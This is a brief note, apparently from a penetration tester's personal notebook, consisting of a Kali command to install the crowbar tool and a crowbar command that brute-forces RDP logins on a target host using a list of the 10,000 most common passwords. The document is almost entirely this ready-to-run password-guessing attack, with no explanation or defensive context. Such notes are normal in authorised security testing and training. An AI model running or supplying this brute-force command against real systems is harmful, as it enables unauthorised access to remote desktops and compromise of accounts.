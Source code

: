 ```yaml
---
category: Uncategorized
tags: []
---
```

```bash - kali
sudo apt install crowbar
```

```bash - kali
crowbar -b rdp -s $TARGET/32 -u $USER -C /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt -n 1
```
